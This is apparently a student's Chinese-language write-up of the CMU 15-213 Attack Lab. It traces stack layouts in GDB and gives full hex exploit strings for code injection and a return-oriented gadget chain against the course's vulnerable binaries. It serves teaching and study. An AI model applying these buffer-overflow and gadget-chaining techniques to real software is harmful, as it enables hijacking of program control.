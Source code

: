 # CMU 15213 Attack Lab

整体背景是我们有一个 `read_and_process_line` 函数，这个函数开辟了一个数组，然后读取用户的输入。然而这个函数并没有对用户输入的长度进行任何的限制，这就导致了用户如果输入一个非常长的字符串，可以造成 buffer overflow！

---

# Level 1

在 Level 1 中，我们需要攻击 `ctarget`，我们的目的是从 `read_and_process_line` 返回后，直接调用 `touch1` 函数

首先，我们查看 `touch1` 函数的地址 `0000000000402b9c`

其次，我们 disas test 和 disas read_and_process_line

```nasm
b test
b *0x0000000000402c8f
b read_and_process_line

run -i raw
```

首先到断点2处，这是我们进入 read_and_process_line 前的状态，此时如果我们 `display/x $rsp`，会显示 `0x5561e638`

然后就会执行 `sub $0x8,%rsp` , $rsp 变成 `0x5561e630` （这一步应该是为 test 函数分配 stack frame 空间）

然后就进入到了 `read_and_process_line` 函数中，这个时候看到 $rsp 变成 `0x5561e628`了！

`display/x *(0x5561e628)`会看到 0x402c99，这是 test 函数中调用完 read_and_process_line 的代码位置，就是说 628 ~ 630 这 8 bytes 占据了 return address → **也就是我们要攻击的 address**

在 read_and_process_line 函数中

首先是两行 push 函数，然后是一行 `sub $0x38,%rsp`

经过这三行后，$rsp 变成了 `0x5561e5e0`

至此，rsp 的变动就结束了，后续就很明了啦～

```nasm
01 00 00 00 00 00 00 00 // 0x5561e5e0
00 00 00 00 00 00 00 00 
02 00 00 00 00 00 00 00 // 0x5561e5f0
00 00 00 00 00 00 00 00 
03 00 00 00 00 00 00 00 // 0x5561e600
00 00 00 00 00 00 00 00 
04 00 00 00 00 00 00 00 // 0x5561e610
00 00 00 00 00 00 00 00 
05 00 00 00 00 00 00 00 // 0x5561e620
9c 2b 40 00             // 0x5561e628 ~ 0x5561e62b
```

---

# Level 2

在 Level 2 中，我们的任务是触发 touch2 函数，除此以外，我们需要将我们的 cookie `0x11560ebd`作为入参传递给 touch2 函数

这里，我们需要理解一下 PC 和 ret 指令：

- PC 即程序计数器，它时刻指向下一条需要执行的指令的地址，一般表示为 %rip
- ret 指令相当于 pop %rip, 即把栈中存放的地址弹出作为下一条指令的地址

因此，我们可以

1. 将我们的攻击代码写入 stack 中，这个攻击代码会将 cookie 写入到 $rdi 中，然后将 touch2 函数的地址放入栈中，最后 return —— 则会让 PC 读到 touch2 的地址
2. 覆盖原本的 return address 为我们的攻击代码的地址

首先，整个函数的 stack 结构其实都没有变，关键在于我们需要在输入中加上 executable code 来把我们的 cookie 丢到 rdi 寄存器中，我们可以先写出汇编代码

```nasm
mov 0x11560ebd,%rdi
pushq $0x402bd0
ret
```

通过 

`gcc -c example.s`

`objdump -d example.o > example.d` 我们得到了这两段代码的汇编形式

```nasm
test.o:     file format elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 bd 0e 56 11 	mov    $0x11560ebd,%rdi
   7:	68 d0 2b 40 00       	push   $0x402bd0
   c:	c3                   	ret
```

然后，记得我们之前标注的，在 read_and_process_line 中，rsp 指向 0x5561e5e0，这也是我们攻击代码注入的地址，于是有了如下的答案

```nasm
48 c7 c7 bd 0e 56 11 68
d0 2b 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
e0 e5 61 55
```

---

# Level 3

这题的要求是我们触发 touch3 并且传入 cookie 的 ascii 表示，然后加了一个限制，就是我们不能把我们的 string 写入到 read_and_process_line 的 stack 中

本质上没有任何区别，我们将 cookie 存储到 test 函数的 stack 中，然后修改一下我们要注入的汇编代码即可

```nasm
mov $0x5561e638,%rdi
pushq $0x402c25
ret
```

```nasm
48 c7 c7 38 e6 61 55 68 # 0x5561e5e0
25 2c 40 00 c3 00 00 00
00 00 00 00 00 00 00 00 # 0x5561e5f0
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 # 0x5561e600
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
e0 e5 61 55 00 00 00 00 
00 00 00 00 00 00 00 00 
31 31 35 36 30 65 62 64
00 00 00 00 00 00 00 00 # 因为 hexmatch 中还有相关的逻辑，所以这里要填充 0
```

---

# Level 4

从这一部分开始，我们就要攻击 rtarget 了，这比前面的攻击要更加困难了，因为我们增加了栈随机 + 不可执行 stack 的内容 两个防护机制

因此，我们只能选择使用 gadget 来辅助我们的攻击

那么使用 gadget 有什么要考虑的呢？

- 首先想好我们要使用什么汇编代码，这样才能知道我们需要获取哪些 gadget
- 其次，同一个 gadget 指令，例如 `48 89 c7`，可能出现了很多次，是否每一处都可以满足我们的要求呢？ —— 答案是否定的，必须要以 nop 结尾的，才可以满足我们的要求。例如 `48 89 c7 90`

Level 4 要我们在 rtarget 中重复 Level 2 的攻击，那我们还是先写汇编代码

```nasm
mov 0x11560ebd,%rdi
pushq $0x402bd0
ret
```

坏了，我们的代码里面有一个 cookie 立即数，几乎不可能从 farm 中找到一段可以满足的代码，那我们怎么办呢？

首先考虑将 cookie 放入到栈中，然后 `pop D` 指令可以将当前 rsp 所指向的数据赋值给 D，因此如下汇编代码就可以把 cookie 赋值给 rdi，然后执行 touch2 即可

```nasm
pop %rdi
ret
```

这个操作对应的汇编指令是 5f，然而在 farm 中找不到，于是只能选择加一个 gadget 帮忙中转

```nasm
popq %rax // 58
ret
###############
movq %rax, %rdi // 48 89 c7
ret
```

```nasm
0000000000402cca <setval_123>:
  402cca:	c7 07 08 58 90 90    	movl   $0x90905808,(%rdi)
  402cd0:	c3
```

402ccd 包含了我们需要的 58 90

```nasm
0000000000402cbc <setval_137>:
  402cbc:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  402cc2:	c3
```

402cbe 包含了我们需要的 48 89 c7


```nasm
00 00 00 00 00 00 00 00 # 0x5561e5e0 ～ 5ef
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 # 0x5561e5f0
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 # 0x5561e600
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 # 0x5561e610
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 # 0x5561e620 ~ 627
cd 2c 40 00 00 00 00 00
bd 0e 56 11 00 00 00 00 # 0x5561e630 (Cookie)
be 2c 40 00 00 00 00 00
d0 2b 40 00 00 00 00 00 # touch2 Address
```